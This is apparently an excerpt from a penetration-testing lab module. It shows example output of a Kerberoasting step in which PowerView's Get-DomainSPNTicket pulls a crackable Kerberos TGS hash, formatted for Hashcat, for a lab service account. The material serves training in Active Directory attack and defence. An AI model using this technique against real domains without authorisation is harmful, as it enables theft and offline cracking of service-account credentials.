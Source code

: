 Example Output:
```
PS C:\htb> Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat

SamAccountName       : sqldev
DistinguishedName    : CN=sqldev,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ServicePrincipalName : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
TicketByteHexStream  :
Hash                 : $krb5tgs$23$*sqldev$INLANEFREIGHT.LOCAL$MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433*$BF9729001
                       376B63C5CAC933493C58CE7$4029DBBA2566AB4748EDB609CA47A6E7F6E0C10AF50B02D10A6F92349DDE3336018DE177
                       AB4FF3CE724FB0809CDA9E30703EDDE93706891BCF094FE64387B8A32771C7653D5CFB7A70DE0E45FF7ED6014B5F769F
                       DC690870416F3866A9912F7374AE1913D83C14AB51E74F200754C011BD11932464BEDA7F1841CCCE6873EBF0EC5215C0
                       12E1938AEC0E02229F4C707D333BD3F33642172A204054F1D7045AF3303809A3178DD7F3D8C4FB0FBB0BB412F3BD5526
                       7B1F55879DFB74E2E5D976C4578501E1B8F8484A0E972E8C45F7294DA90581D981B0F177D79759A5E6282D86217A03A9
                       ADBE5EEB35F3924C84AE22BBF4548D2164477409C5449C61D68E95145DA5456C548796CC30F7D3DDD80C48C84E3A538B
                       019FB5F6F34B13859613A6132C90B2387F0156F3C3C45590BBC2863A3A042A04507B88FD752505379C42F32A14CB9E44
                       741E73285052B70C1CE5FF39F894412010BAB8695C8A9BEABC585FC207478CD91AE0AD03037E381C48118F0B65D25847
                       B3168A1639AF2A534A63CF1BC9B1AF3BEBB4C5B7C87602EEA73426406C3A0783E189795DC9E1313798C370FD39DA53DD
                       CFF32A45E08D0E88BC69601E71B6BD0B753A10C36DB32A6C9D22F90356E7CD7D768ED484B9558757DE751768C99A64D6
                       50CA4811D719FC1790BAE8FE5DB0EB24E41FF945A0F2C80B4C87792CA880DF9769ABA2E87A1ECBF416641791E6A762BF
                       1DCA96DDE99D947B49B8E3DA02C8B35AE3B864531EC5EE08AC71870897888F7C2308CD8D6B820FCEA6F584D1781512AC
                       089BFEFB3AD93705FDBA1EB070378ABC557FEA0A61CD3CB80888E33C16340344480B4694C6962F66CB7636739EBABED7
                       CB052E0EAE3D7BEBB1E7F6CF197798FD3F3EF7D5DCD10CCF9B4AB082CB1E199436F3F271E6FA3041EF00D421F4792A0A
                       DCF770B13EDE5BB6D4B3492E42CCCF208873C5D4FD571F32C4B761116664D9BADF425676125F6BF6C049DD067437858D
                       0866BE520A2EBFEA077037A59384A825E6AAA99F895A58A53313A86C58D1AA803731A849AE7BAAB37F4380152F790456
                       37237582F4CA1C5287F39986BB233A34773102CB4EAE80AFFFFEA7B4DCD54C28A824FF225EA336DE28F4141962E21410
                       D66C5F63920FB1434F87A988C52604286DDAD536DA58F80C4B92858FE8B5FFC19DE1B017295134DFBE8A2A6C74CB46FF
                       A7762D64399C7E009AA60B8313C12D192AA25D3025CD0B0F81F7D94249B60E29F683B797493C8C2B9CE61B6E3636034E
                       6DF231C428B4290D1BD32BFE7DC6E7C1E0E30974E0620AE337875A54E4AFF4FD50C4785ADDD59095411B4D94A094E87E
                       6879C36945B424A86159F1575042CB4998F490E6C1BC8A622FC88574EB2CF80DD01A0B8F19D8F4A67C942D08DCCF23DD
                       92949F63D3B32817941A4B9F655A1D4C5F74896E2937F13C9BAF6A81B7EEA3F7BC7C192BAE65484E5FCCBEE6DC51ED9F
                       05864719357F2A223A4C48A9A962C1A90720BBF92A5C9EEB9AC1852BC3A7B8B1186C7BAA063EB0AA90276B5D91AA2495
                       D29D545809B04EE67D06B017C6D63A261419E2E191FB7A737F3A08A2E3291AB09F95C649B5A71C5C45243D4CEFEF5EED
                       95DDD138C67495BDC772CFAC1B8EF37A1AFBAA0B73268D2CDB1A71778B57B02DC02628AF11
```
